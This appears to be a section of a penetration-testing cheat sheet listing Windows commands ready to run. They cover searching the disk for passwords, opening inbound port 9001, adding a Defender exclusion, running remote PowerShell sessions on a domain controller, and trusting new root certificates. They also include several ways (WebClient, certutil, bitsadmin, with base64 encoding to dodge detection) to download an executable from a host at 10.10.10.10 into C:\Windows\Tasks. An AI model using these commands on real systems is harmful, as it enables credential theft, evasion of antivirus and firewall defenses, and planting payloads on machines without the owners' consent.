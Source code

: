## Miscellaneous

- Recursively search from the current directory for "password" (cmd)
```cmd
findstr /S /C:"password" *
```

-  Recursively search from the current directory for the file passwords.txt (cmd)
```cmd
dir passwords.txt /S /B
```

- Find process running on port 80 (PS)
```powershell
Get-Process -Id (Get-NetTCPConnection -LocalPort 80).OwningProcess
```

- Unzip an Archive using PS
```powershell
Expand-Archive .\Tools.zip Tools
```

- Add a firewall rule to allow port 9001 in via TCP
```powershell
# Add the rule
netsh advfirewall firewall add rule name="Allow 9001" dir=in action=allow protocol=TCP localport=9001

# Clean up after
netsh advfirewall firewall delete rule name="Allow 9001" protocol=TCP localport=9001
```

- Add a Defender Exclusion
```powershell
add-MpPReference -ExclusionPath "C:\Program Files"
```

- Use Powershell Remoting to login or send commands to a device with port 5985 and Windows Remote Management enabled for the current user
```powershell
Enter-PSSession -Computername dc04.matrix.local

# Create a stateful session to reuse
$sess = New-PSSession -ComputerName dc04.matrix.local
Enter-PSSession -Session $sess

# Send a command using -ScriptBlock
Invoke-Command -ComputerName dc04.matrix.local -ScriptBlock{whoami;hostname}
```

- Various ways to transfer files on Windows
```powershell
# Vanilla PS
(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10/parrot.exe','C:\windows\tasks\parrot.exe')
iwr -uri 'http://10.10.10.10/parrot.exe' -OutFile 'C:\windows\tasks\parrot.exe'

# Certutil
certutil -f -urlcache "http://10.10.10.10/parrot.exe" C:\Windows\Tasks\Parrot.exe

# Bitsadmin
bitsadmin /Transfer file http://10.10.10.10/parrot.exe C:\Windows\Tasks\Parrot.exe

# Convert to b64 with certutil and then unpack on the target
certutil -encode C:\Windows\Tasks\Parrot.exe C:\Windows\Tasks\Parrot.b64
bitsadmin /Transfer file http://10.10.10.10/Parrot.b64 C:\Windows\Tasks\Parrot.b64
certutil -decode C:\Windows\Tasks\Parrot.b64 C:\Windows\Tasks\Parrot.exe
```

- Working with certificates, sometimes they need to be signed. If you have a .cer file, sign it with the thumbprint output from the `Get-PFxCertificate` cmdlet using signtool.
```powershell
Get-PFxCertificate -FilePath .\signing.cer 
Thumbprint: 8E2749C6A42A15861DFA58542D59039BB7A1A915

signtool.exe sign /debug /f signing.cer /d "My Description" /fd sha1 /v /sha1 8E2749C6A42A15861DFA58542D59039BB7A1A915 /t 

# Import a certificate
Certutil -addStore ROOT matrixdc.matrix.local.crt
Certutil -addStore ROOT ADFS-Token.cer
```